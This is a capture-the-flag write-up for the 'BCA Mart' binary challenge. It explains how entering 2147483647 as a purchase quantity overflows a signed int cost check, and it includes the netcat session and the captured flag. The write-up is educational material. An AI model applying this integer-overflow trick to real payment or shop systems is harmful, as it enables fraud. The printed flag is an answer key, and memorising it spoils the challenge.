 # BCA Mart
**Category :** binex

# Description
After the pandemic hit, everybody closed up shop and moved online. Not wanting to be left behind, BCA MART is launching its own digital presence. Shop BCA MART from the comfort of your own home today!

# Solution
A source file, binary file and a netcat host:port were given.

```
$ file bca-mart
bca-mart: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc848e79181e575b4c63ed0596fee4d52e3cdfd, for GNU/Linux 3.2.0, not stripped
```

We can see that file is a 64bit ELF binary.

My analysis on the source code.
* From looking at the source code we can see that money is a fixed value 15.
* There were to scanfs in the code, so 2 inputs.
* 1st scanf - definitely, we need to send 6 in here for the flag.
* 2nd scanf - we need to send the amount of flags in here, any number of our wish.
```
...
  3
  4 int money = 15;
...
  8     printf("How many %s would you like to buy?\n", item);
  9     printf("> ");
 10     scanf("%d", &amount);
...
 53         puts("What would you like to buy?");
 54
 55         printf("> ");
 56         scanf("%d", &input);
...
```

**Max length of int (4bytes) is -2,147,483,648 to 2,147,483,647.**

So if we send the amount as 2147483647, cost variable will overflow to negative since cost *= amount and cost is an int. Then cost will become negative and will be less than the money value. As we are returning the amount value in 2147483647 will still be positive. So purchase returns greater than zero success.

```
$ nc bin.bcactf.com 49153
Welcome to BCA MART!
We have tons of snacks available for purchase.
(Please ignore the fact we charge a markup on everything)

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $15.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 2147483647
That'll cost $-100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}


1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $115.
What would you like to buy?
> ^C
```

## Flag
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}

